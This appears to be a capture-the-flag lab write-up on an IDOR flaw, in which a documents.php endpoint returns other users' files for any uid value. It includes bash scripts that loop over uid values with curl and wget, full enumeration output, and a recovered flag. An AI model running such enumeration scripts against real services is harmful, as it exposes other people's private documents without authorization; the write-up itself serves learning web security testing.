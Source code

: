 # 🔓 Insecure Direct Object Reference (IDOR) Vulnerability Write-Up
## 🧩 Vulnerability Summary
An IDOR vulnerability was discovered on a web application hosted at http://83.136.252.13:40028. The flaw allows unauthorized users to access and enumerate documents belonging to other users by manipulating a uid parameter sent via POST requests.

![image](https://github.com/user-attachments/assets/a8532a20-279a-4743-9614-ae896dd84122)

### 🕵️‍♂️ Reconnaissance
Upon visiting the homepage, a JavaScript function was found:

```bash
 <script>
    function getDocuments(uid) {
      $.redirect("/documents.php", {
        uid: uid,
      }, "POST", "_self");
    }
  </script>
```
This indicated that the /documents.php endpoint accepted a POST request with a uid parameter to retrieve user-specific documents.

### 📥 Endpoint Behavior
When manually visiting /documents.php via browser (or by crafting a POST request), document links were returned within anchor (<a>) tags, such as:

```bash
<li>
      <input type="checkbox" id="trigger-views" checked="checked">
      <label for="trigger-views">Documents</label>
      <ul class="pure-tree">
        <li class='pure-tree_link'><a href='/documents/Invoice_1_09_2021.pdf' target='_blank'>Invoice</a></li>
        <li class='pure-tree_link'><a href='/documents/Report_1_10_2021.pdf' target='_blank'>Report</a></li>
    </ul>
</li>
```

The naming format followed:

`[DocumentType]_[UID]_[Month]_[Year].pdf`

![image](https://github.com/user-attachments/assets/1e59c7b9-11d2-44fd-ade8-451790df7e13)

This suggested that the application returned files belonging to the UID provided, without validating the requester's authorization.

### 🧪 Exploitation

Let's understand the given bash file in the learning module.

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

A custom Bash script was created to enumerate files by iterating over uid values and parsing the response:

```bash
#!/bin/bash

url="http://94.237.51.163:38179/documents.php"
max_uid=20

# Print header
echo -e "UID | FILE NAME 1 | FILE NAME 2 | FILE NAME 3"

for uid in $(seq 1 $max_uid); do
    echo "[*] Checking UID: $uid" >&2

    # Send POST request and get matching files
    files=$(curl -s -X POST -d "uid=$uid" "$url" | grep -oP "/documents/\K[^']+\.[a-zA-Z0-9]+" | sort -u)

    # Format row: UID | file1 | file2 | file3...
    row="$uid"
    for file in $files; do
        row="$row | $file"
    done

    echo -e "$row"
done
```

Save it as : `idor_enum_download_all.sh`

Make it executable: `chmod +x idor_enum_download_all.sh`

Run it: `./idor_enum_download_all.sh`

### Output

```bash
UID | FILE NAME 1 | FILE NAME 2 | FILE NAME 3
[*] Checking UID: 1
1 | Invoice_1_09_2021.pdf | Report_1_10_2021.pdf
[*] Checking UID: 2
2 | Invoice_2_08_2020.pdf | Report_2_12_2020.pdf
[*] Checking UID: 3
3 | Invoice_3_06_2020.pdf | Report_3_01_2020.pdf
[*] Checking UID: 4
4 | Invoice_4_07_2021.pdf | Report_4_11_2020.pdf
[*] Checking UID: 5
5 | Invoice_5_06_2020.pdf | Report_5_11_2021.pdf
[*] Checking UID: 6
6 | Invoice_6_09_2019.pdf | Report_6_09_2020.pdf
[*] Checking UID: 7
7 | Invoice_7_11_2021.pdf | Report_7_01_2020.pdf
[*] Checking UID: 8
8 | Invoice_8_06_2020.pdf | Report_8_12_2020.pdf
[*] Checking UID: 9
9 | Invoice_9_04_2019.pdf | Report_9_05_2020.pdf
[*] Checking UID: 10
10 | Invoice_10_03_2020.pdf | Report_10_05_2021.pdf
[*] Checking UID: 11
11 | Invoice_11_03_2021.pdf | Report_11_04_2021.pdf
[*] Checking UID: 12
12 | Invoice_12_02_2020.pdf | Report_12_04_2020.pdf
[*] Checking UID: 13
13 | Invoice_13_06_2020.pdf | Report_13_01_2020.pdf
[*] Checking UID: 14
14 | Invoice_14_01_2021.pdf | Report_14_01_2020.pdf
[*] Checking UID: 15
15 | flag_11dfa168ac8eb2958e38425728623c98.txt | Invoice_15_11_2020.pdf | Report_15_01_2020.pdf
[*] Checking UID: 16
16 | Invoice_16_12_2021.pdf | Report_16_01_2021.pdf
[*] Checking UID: 17
17 | Invoice_17_11_2021.pdf | Report_17_06_2021.pdf
[*] Checking UID: 18
18 | Invoice_18_12_2020.pdf | Report_18_01_2020.pdf
[*] Checking UID: 19
19 | Invoice_19_06_2020.pdf | Report_19_08_2020.pdf
[*] Checking UID: 20
20 | Invoice_20_06_2020.pdf | Report_20_01_2021.pdf
```
![image](https://github.com/user-attachments/assets/e478bdd0-82c4-4634-ba83-897d95c862a5)

### 🏁 Flag Found

Using the script, UID 15 returned an unexpected .txt file, which turned out to be a flag:
```bash
cat downloads/flag_11dfa168ac8eb2958e38425728623c98.txt
```
